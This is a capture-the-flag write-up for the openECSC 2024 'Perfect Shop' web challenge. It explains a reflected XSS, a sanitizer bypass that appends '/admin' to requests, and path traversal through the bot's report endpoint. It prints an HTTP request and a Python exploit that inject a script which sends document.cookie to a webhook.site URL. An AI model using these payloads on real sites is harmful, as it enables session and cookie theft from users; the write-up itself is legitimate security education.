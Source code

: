 # openECSC 2024 - Round 1

## [web] Perfect Shop (198 solves)

Do you like perfect things? Check out my new online shop!

Site: [http://perfectshop.challs.open.ecsc2024.it](http://perfectshop.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The challenge consists of a simple ecommerce website that allows users to view and search a list of items. 

Additionally, the application exposes an administration interface that requires access with an unknown password to modify the items.

Finally, it is possible to have one of the available items on the website visited by a bot that has the flag as a cookie


## XSS

The search functionality is vulnerable to a trivial XSS, the searched value is in fact reflected in the page without HTML escaping. 

However, the application is protected by a sanitizer, which automatically removes malicious HTML tags from the parameters sent to the server.

## Sanitizer bypass

The sanitizer is configured to use a whitelist of endpoints on which the check should not be performed.
In particular, this list only contains the `/admin` endpoint.

By analyzing how the withelist check is implemented, we can see that this is not done correctly (for the version used by the challenge).

The following line of the code is used by the library to perform the whitelist check.

```
!whiteList.some((v) => req.url.trim().includes(v))
```

In particular, the library does not sanitize if the visited url **contains** a value in the whitelist.

For this reason, sanitization can be avoided by visiting the path `/random?x=/admin`.

Therefore, to trigger the XSS, it is sufficient to visit the path `/search?q=<script>alert(1)</script>&x=/admin`.

## XSS on the bot

The functionality triggering the bot to visit a page allows it only to visit a product page starting from the product id provided in the request.

This value is converted by the `parseInt` function and is verified to be a valid product id.

If the value is valid, the bot makes the visit by constructing the URL to visit with the value provided **before** converting to integer.
In practice, this allows us to make the bot to visit an arbitrary server path, sending as the id to visit a payload similar to `1/../../search?q=aaa`.

By making the bot visit an arbitrary path, we can exploit XSS on the search functionality to steal the cookie containing the flag, while staying under the limit of usable characters.

An example of a payload that can be used to send the cookie to a webhook is given.
Note how it is necessary to include the string `/admin` also in the request to the endpoint to make the report, so that our payload is not sanitized.


```
POST /report?/admin HTTP/1.1
Host: localhost:3000
Content-Length: 223
Origin: http://localhost:3000
Content-Type: application/x-www-form-urlencoded

id=1%2f..%2f..%2fsearch%3ffetch(%60https%3a%2f%2fwebhook.site%2fYOUR-WEBHOOK-HERE%2f%24%7bdocument.cookie%7d%60)%2f%2f%26q%3d%3cscript%3eeval(location.search.slice(1))%3c%2fscript%3eaa%26%2fadmin&message=
```

Triggering the bot to execute the following script.

```
<script>eval(location.search.slice(1))</script>
```

This allows us to execute an arbitrary payload that we can write at the beginning of the URL while respecting the length limit on the `q` parameter, leaking the flag to our webhook.

## Exploit

```python
import requests
import time
import re
import urllib.parse

chall_url = "http://perfectshop.challs.open.ecsc2024.it"

r = requests.post('https://webhook.site/token')
token_id = r.json()['uuid']

webhook_url = f'https://webhook.site/{token_id}/'

payload = '1/../../search?fetch(`' + webhook_url + '/?${document.cookie}`)//&q=<script>eval(location.search.slice(1))</script>&/admin'
r = requests.post(chall_url + "/report?/admin", data={"id": payload, "message": "x"})

assert 'Report submitted successfully' in r.text

for _ in range(10):
    r = requests.get('https://webhook.site/token/'+ token_id +'/requests')

    for request in r.json()['data']:
        m = re.search(r'openECSC\{.+\}', urllib.parse.unquote(request['url']))
        if (m):
           print(m.group(0))
           exit()
           
    time.sleep(2)
```
